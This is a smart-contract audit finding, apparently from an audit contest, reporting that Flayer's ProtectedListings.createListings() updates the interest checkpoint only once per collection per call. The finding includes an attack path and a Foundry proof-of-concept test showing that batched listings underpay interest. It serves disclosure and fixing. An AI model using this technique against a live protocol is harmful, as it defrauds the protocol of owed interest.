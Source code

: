 Wonderful Rouge Hamster

High

# Creating multiple listings for the same collection causes the checkpoint's compoundFactor to be smaller than it should be

### Summary

In `ProtectedListings.createListings()` it will only create a checkpoint the first time it encounters a new collection. If multiple listings are created for the same collection it won't update the checkpoint causing the `compoundFactor` to be lower than it should be. A lower compound factor decreases the interest the user has to pay causing a loss of funds for the protocol.

### Root Cause

In [ProtectedListings.sol:136](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L136) it will only create a checkpoint for a collection if it's seen for the first time.

```sol
            if (checkpointIndex == 0) {
                checkpointIndex = _createCheckpoint(listing.collection);
                assembly { tstore(checkpointKey, checkpointIndex) }
            }
```

When a checkpoint is created, it calculates the `compoundedFactor` which is used for the interest calculation of all the listings of a collection:

```sol
    function _currentCheckpoint(address _collection) internal view returns (Checkpoint memory checkpoint_) {
        // Calculate the current interest rate based on utilization
        (, uint _utilizationRate) = utilizationRate(_collection);

        // Update the compounded factor with the new interest rate and time period
        Checkpoint memory previousCheckpoint = collectionCheckpoints[_collection][collectionCheckpoints[_collection].length - 1];

        // Save the new checkpoint
        checkpoint_ = Checkpoint({
            compoundedFactor: locker.taxCalculator().calculateCompoundedFactor({
                _previousCompoundedFactor: previousCheckpoint.compoundedFactor,
                _utilizationRate: _utilizationRate,
                _timePeriod: block.timestamp - previousCheckpoint.timestamp
            }),
            timestamp: block.timestamp
        });
    }
    
        function utilizationRate(address _collection) public view virtual returns (uint listingsOfType_, uint utilizationRate_) {
        // Get the count of active listings of the specified listing type
        listingsOfType_ = listingCount[_collection];

        // If we have listings of this type then we need to calculate the percentage, otherwise
        // we will just return a zero percent value.
        if (listingsOfType_ != 0) {
            ICollectionToken collectionToken = locker.collectionToken(_collection);

            // If we have no totalSupply, then we have a zero percent utilization
            uint totalSupply = collectionToken.totalSupply();
            if (totalSupply != 0) {
                utilizationRate_ = (listingsOfType_ * 1e36 * 10 ** collectionToken.denomination()) / totalSupply;
            }
        }
    }
```

The number of listings as well as the collection token's total supply are part of the calculation. Meaning, any new listing that's created affects the utilization rate which in turn affects the `compoundedFactor` and thus should be reflected in a new checkpoint.

By creating multiple listings for the same collection within a single call to `createListings()` we can create listings that don't affect the checkpoint and thus break the interest calculation.

### Internal pre-conditions

none

### External pre-conditions

none

### Attack Path

1. Attacker creates multiple listings for a given collection in a single call to `createListings()`.

### Impact

The interest calculation will be off causing users to pay less than they should when they unlock their tokens.

### PoC

```diff
diff --git a/flayer/test/ProtectedListings.t.sol b/flayer/test/ProtectedListings.t.sol
index 5910d33..34df244 100644
--- a/flayer/test/ProtectedListings.t.sol
+++ b/flayer/test/ProtectedListings.t.sol
@@ -38,6 +38,88 @@ contract ProtectedListingsTest is Deployers, FlayerTest {
         _addLiquidityToPool(address(erc721a), 10 ether, int(0.00001 ether), false);
     }
 
+    function test_multiple_listings_breaks_checkpoints() public {
+        address user = vm.addr(4);
+        erc721a.mint(user, 10);
+        erc721a.mint(user, 11);
+        erc721a.mint(user, 12);
+
+        // First scenario:
+        // we create multiple listings for the same colelction within a single call
+        // to `createListings()`
+
+        vm.startPrank(user);
+        erc721a.setApprovalForAll(address(protectedListings), true);
+
+        IProtectedListings.ProtectedListing memory listing = IProtectedListings.ProtectedListing({
+            owner: payable(user),
+            tokenTaken: 0.4 ether,
+            checkpoint: 0
+        });
+
+        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](3);
+        _listings[0] = IProtectedListings.CreateListing({
+            collection: address(erc721a),
+            tokenIds: _tokenIdToArray(10),
+            listing: listing
+        });
+        _listings[1] = IProtectedListings.CreateListing({
+            collection: address(erc721a),
+            tokenIds: _tokenIdToArray(11),
+            listing: listing
+        });
+        _listings[2] = IProtectedListings.CreateListing({
+            collection: address(erc721a),
+            tokenIds: _tokenIdToArray(12),
+            listing: listing
+        });
+
+        protectedListings.createListings(_listings);
+
+        IProtectedListings.Checkpoint[] memory checkpoints = protectedListings.getCheckpoints(address(erc721a));
+        IProtectedListings.Checkpoint memory checkpoint = checkpoints[0];
+        assertEq(checkpoint.timestamp, block.timestamp);
+        assertEq(checkpoint.compoundedFactor, 1000000000000000000);
+
+        vm.stopPrank();
+
+        // Second scenario:
+        // We create two listings in two independent transactions which means that
+        // two separate checkpoints are created.
+
+        address user2 = vm.addr(5);
+        erc721b.mint(user2, 10);
+        erc721b.mint(user2, 11);
+
+        vm.startPrank(user2);
+        erc721b.setApprovalForAll(address(protectedListings), true);
+
+        _listings = new IProtectedListings.CreateListing[](1);
+        _listings[0] = IProtectedListings.CreateListing({
+            collection: address(erc721b),
+            tokenIds: _tokenIdToArray(10),
+            listing: listing
+        });
+
+        protectedListings.createListings(_listings);
+
+        vm.warp(block.timestamp + 12);
+
+        _listings[0].tokenIds = _tokenIdToArray(11);
+        protectedListings.createListings(_listings);
+
+        IProtectedListings.Checkpoint[] memory checkpointsB = protectedListings.getCheckpoints(address(erc721b));
+
+        assertEq(checkpointsB.length, 2);
+
+        assertEq(checkpointsB[0].timestamp, block.timestamp - 12);
+        assertEq(checkpointsB[0].compoundedFactor, 1000000000000000000);
+        // compound factor changed because the previous listing affects the new checkpoint's
+        // compound factor calculation
+        assertEq(checkpointsB[1].timestamp, block.timestamp);
+        assertEq(checkpointsB[1].compoundedFactor, 1000000101978691012);
+    }
+
     function test_CanCreateProtectedListing(address payable _owner, uint _tokenId) public {
         // Ensure that we don't get a token ID conflict
         _assumeValidTokenId(_tokenId);
diff --git a/flayer/test/mocks/ProtectedListingsMock.sol b/flayer/test/mocks/ProtectedListingsMock.sol
index 902413c..ebbcfc0 100644
--- a/flayer/test/mocks/ProtectedListingsMock.sol
+++ b/flayer/test/mocks/ProtectedListingsMock.sol
@@ -23,4 +23,8 @@ contract ProtectedListingsMock is ProtectedListings {
         listingCount[_collection] = _amount;
     }
 
+    function getCheckpoints(address _collection) public view returns (Checkpoint[] memory) {
+        return collectionCheckpoints[_collection];
+    }
+
 }

```

In the PoC only a single checkpoint is created for the scenario where we create multiple listings within the same tx. The checkpoint has the same compounded factor as the one in the other scenario where we create only a single listing.

### Mitigation

checkpoint should be updated for each new listing.